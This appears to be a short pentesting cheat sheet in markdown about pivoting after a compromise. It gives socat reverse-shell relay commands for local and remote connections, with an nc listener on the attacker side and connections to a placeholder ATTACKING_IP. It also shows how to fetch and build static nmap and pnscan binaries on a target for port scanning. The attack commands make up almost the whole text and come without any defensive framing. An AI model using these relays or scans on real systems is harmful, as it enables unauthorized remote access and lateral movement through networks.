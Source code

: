 ## Reverse Shell Relay

### Local Connections

![picture 1](images/8366aaa7daebd9b51f083f9a024def1d1a691e2fdba3b8da32e2ec0dcee8030d.png)  

> Attacker

```bash
nc -lvnp 443
```

> Target

```bash
./socat tcp-l:8000 tcp:ATTACKING_IP:443 &
```

### Remote Connections

![picture 2](images/2975224e6dc3297696f8fa42570a6d54ad2b5b31e580dfc7c3be50d14f8687ea.png)  

> Attacker

```bash
socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &
```

> Target

```bash
./socat tcp:ATTACKING_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork &
```

Test:

```bash
curl 127.0.0.1:8000
```

## Port scan

### Nmap

```bash
wget https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/nmap
chmod +x nmap
./nmap ...
```

### Pnscan

```bash
git clone https://github.com/ptrrkssn/pnscan.git
./configure && make
```
